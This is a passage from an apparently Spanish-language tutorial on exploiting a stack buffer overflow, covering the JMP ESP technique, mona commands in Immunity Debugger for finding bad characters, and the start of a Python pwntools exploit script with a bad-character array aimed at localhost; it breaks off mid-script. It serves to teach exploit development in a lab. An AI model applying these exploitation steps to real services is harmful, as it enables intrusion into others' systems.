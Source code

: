 Al final aqui la direccion a la cual tenemos que appuntar es a la **ESP** `0x0022D470` que es la pilla. El problema es que no podemos simplemente ponerle al
EIP la direccion del ESP porque esto no va a funccionar. Tendremos aqui que usar un concepto que se llama **OPCODE**. El **OPCODE** son instrucciones
a bajo nivel que nos permitte hacer un Jump al ESP llamado **JMPESP**.

Pero antes de mirrar el **OPCODE**, vamos a preparar el script malicioso que queremos ejecutar.

#### Etapa 5: Preparacion del codigo malicioso {-}

Como atacante, no queremos que el programa nos interprete una serie de **C** pero un codigo malicioso en caracteres Hexadecimal. 
El problema que puede surgir, es que algunos caracteres no se logren interpretar por el programa. Estos carateres son llamados **BadChars**.
Tenemos que empezar por buscar estos **BadChars**.

1. Configurar el entorno de trabajo con mona

    A bajo de la ventana del Immunity Debugger, podemos entrar commandos. Aqui creamos un directorio para poder trabajar correctamente

    - `!mona config -set workingfolder C:\Users\S4vitar\Desktop\%p`

    ```{r, echo = FALSE, fig.cap="Mona Set working directory", out.width="90%"}
        knitr::include_graphics("images/Buff-mona_set_wdir.png")
    ```

1. Utilizamos mona para crear una lista de todos los caracteres en Hexadecimal

    ```bash
    !mona bytearray -cpb "\x00"
    ```

    Aqui mona nos crea un fichero llamado bytearray` en el escritorio que contiene todos los valores en Hex del 01 al FF. Por prevencion
    quittamos de entrada el caracter `x00` que es un **BadChars** bastante commun.

1. Enviamos todos estos caracteres en la pila para ver en que punto, o mejor dicho que carateres hacen quel programa pete.

    ```python
    #!/usr/bin/python3

    import socket
    import signal
    import pdb
    import sys
    import time

    from pwn import *
    from struct import pack

    # Variables globales
    remoteAddress = "127.0.0.1"

    def executeExploit():
        badChars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"